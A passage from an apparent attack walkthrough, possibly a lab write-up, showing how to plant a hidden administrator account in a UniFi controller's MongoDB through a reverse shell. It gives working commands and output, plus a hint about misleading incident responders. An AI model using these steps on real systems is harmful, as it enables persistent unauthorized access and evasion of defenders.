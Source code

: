 ### Shadow Admin
We can easily add our own shadow administrator account using the command line interface. With a lack of authentication we can execute a series of commands to add a local account.

First and foremost, we need to generate a password hash for our account using the `mkpasswd` command. Oddly enough, this utility is included in the apt whois package. Install whois and then execute the following command to generate a hash on your local system:
```
$ mkpasswd -m sha-512 mypassword

$6$XqwExB.PWVizrHx.$f1nRm0IsmpjowuOFX/gt9V2ibToY1c5vw2REmY/Mk2l/MEJuf7hna7VegxDGcpPQNyyr.7IUJ62kfPskJn/G8/
```
So, by the reverse shell, let's create a new admin account named `unifi-admin` for the web application (in general, the relevant variables are: `email`, `name`, `x_shadow`):
```
$ mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "time_created" : NumberLong(100019800), "x_shadow" : "$6$XqwExB.PWVizrHx.$f1nRm0IsmpjowuOFX/gt9V2ibToY1c5vw2REmY/Mk2l/MEJuf7hna7VegxDGcpPQNyyr.7IUJ62kfPskJn/G8/" })'

MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nInserted" : 1 })
```
Note: You can leave the `time_created` variable the same. It doesn’t matter unless you’re trying to confuse IR people.

Now, we must give grants to this new user. For doing this, by the listing user command, we must get the `ObjectId` of the user, in my case:
```
$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

<SNIP>
{
        "_id" : ObjectId("623401f3d1cba481cf41ffb3"),
        "email" : "null@localhost.local",
        "last_site_name" : "default",
        "name" : "unifi-admin",
        "time_created" : NumberLong(100019800),
        "x_shadow" : "$6$XqwExB.PWVizrHx.$f1nRm0IsmpjowuOFX/gt9V2ibToY1c5vw2REmY/Mk2l/MEJuf7hna7VegxDGcpPQNyyr.7IUJ62kfPskJn/G8/",
        "ui_settings" : {
<SNIP>
```
Then, by using the `ObjectId` for refering to our user, let's type the following command to get a list of all sites associated with the appliance:
```
$ mongo --port 27117 ace --eval "db.site.find().forEach(printjson);"

MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce269d46e0fb0012d47ec4"),
        "anonymous_id" : "5abcfa17-8e78-4677-8898-d3ffdf9d957c",
        "name" : "super",
        "key" : "super",
        "attr_hidden_id" : "super",
        "attr_hidden" : true,
        "attr_no_delete" : true,
        "attr_no_edit" : true
}
{
```